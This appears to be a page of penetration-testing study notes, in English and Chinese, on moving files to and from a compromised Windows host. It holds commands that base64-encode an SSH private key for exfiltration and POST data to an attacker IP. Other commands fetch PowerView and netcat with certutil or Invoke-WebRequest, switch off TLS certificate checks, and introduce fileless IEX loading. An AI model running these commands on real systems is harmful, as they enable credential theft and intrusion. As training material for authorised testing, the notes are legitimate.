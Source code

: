 ```bash
download mimikatz.log /home/kali/Documents/pen-200
```
$5) C2 frameworks:$
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers
https://blog.ropnop.com/transferring-files-from-kali-to-windows/

Happy hacking!

# Exfiltration From Victim
https://book.hacktricks.xyz/v/cn/generic-methodologies-and-resources/exfiltration
******************
# Copy/Peste With Base64Encode
通过复制粘贴编码成base64的字符串进行文件传输(不使用网络)
```powershell
# cat id_rsa |base64 -w 0;echo 将需要传输的文件编码为base64
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS....")) 
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5 # 传输完整性验证
```
#warning Windows 命令行实用程序（cmd.exe）的**最大字符串长度为 8,191 个字符**。此外，如果
您尝试发送非常大的字符串，Web shell 可能会出错。
Upload
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
Get-FileHash "C:\Windows\system32\drivers\etc\hosts" -Algorithm MD5 | select Hash #完整性

#echo IyBDb3..... | base64 -d > hosts
#md5sum hosts
```

#  Powershell .Net Class
 
## File Download --> DownloadFile / DownloadFileAsync
使用New.WebClient下的Method
```powershell
(New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
(New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
```
### Invoke-WebRequest
Alias: `iwr\curl\wget` wget是iwr的封装版本，命令会更简洁点。
[详细的下载框架- 根据情况使用](https://gist.github.com/HarmJ0y/bb48307ffa663256e239)
***
如果使用IE进行下载，可能会出现IE还没通过首次配置(现在几乎是必然),通过添加`-UseBasicParsing `绕过
SSL/TSL的证书问题：`[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
```powershell
Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1
Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64
certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```
### Fileless Method --> DownloadString
直接通过流或者内存进行加载payload，**直接加载到内存**
**Invoke-Expression 命令或别名 IEX**